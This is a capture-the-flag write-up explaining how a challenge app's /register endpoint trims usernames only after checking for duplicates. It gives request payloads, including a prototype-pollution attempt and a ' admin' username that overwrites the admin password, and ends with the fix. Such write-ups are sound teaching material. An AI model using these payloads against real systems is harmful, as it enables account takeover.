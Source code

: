 # Challenge

Login as an admin! (login page: https://chal43-alal08.vercel.app/)

# Solution

## First Thoughts

Pollute the `users` object via a payload like:

```
POST {{url}}/register HTTP/1.1
Content-Type: application/json

{
  "username": "__proto__",
  "password": "EveryonesNewP@ssword!"
}
```

but this would not work due to the following check within the `/register` endpoint:

```js
if (users[username]) {
  return res.status(400).json({ message: "Username already exists" });
}
```

Since `users.__proto__` exists by default, this would not work.  

## Found It

Take a close look at the `/register` endpoint - this is where the vulnerability is at.

```js
app.post("/register", (req, res) => {
  const { username, password } = req.body;
  if (!username || !password) {
    return res.status(400).json({ message: "Username and password are required" });
  } 

  // check password strength (8 char min, special char, digit, uppercase and lowercase)
  const passwordRegex = /^(?=.*d)(?=.*[a-z])(?=.*[A-Z])(?=.*[^a-zA-Z0-9]).{8,}$/; 
  
  if (!passwordRegex.test(password)) {
    return res.status(400).json({ message: "Password needs to be at least 8 charecters long and include at least one: digit, lowecase letter, uppercase letter and a special charecter" });
  } 

  if (users[username]) {
    return res.status(400).json({ message: "Username already exists" });
  } else {
    //successfully registered
    const user = (users[username.trim()] = {});
    user.password = password;
    res.status(201).json({ message: "Registration successful" });
  }
});
```

## Solved

Look at how they are ***validating*** and then ***setting/saving*** the username.

1. The first check makes sure the username you attempted to register doesn't already exist.

2. ***AFTER*** they make sure that the username doesn't already exist, they call `trim` on the username you sent.

```js
/**
 * 1. HERE IS WHERE THEY MAKE SURE THE USERNAME DOESN'T ALREADY EXIST.
 */
if (users[username]) {
  return res.status(400).json({ message: "Username already exists" });
} else {
  //successfully registered
  /**
   * 2. HERE IS WHERE THEY CALL `trim` ON THE USERNAME
   */
  const user = (users[username.trim()] = {});
  user.password = password;
  res.status(201).json({ message: "Registration successful" });
}
```

Do you see where this is going?

Only ***AFTER*** they verify the username doesn't already exist, they call `trim`. This means you can send a payload with 1 or more leading or trailing space(s) in the username and it will pass the initial "already exists" check.

They will remove the space(s) for us by calling `trim`, which means we can override the admin account by sending a payload like:

```
POST {{url}}/register HTTP/1.1
Content-Type: application/json

{
  "username": " admin", // "admin ", // <-- this would also work
  "password": "0verRide!"
}
```

Therefore, `" admin"` will be trimmed to `"admin"`, and we have successfully changed the admin password. 

Now we can login with the password we chose in order to get a JWT. We can then use this JWT to view the admin profile.

## TLDR

They should be trimming the username PRIOR to any validation checks. The fact they trim after validation allows us to override the admin account password.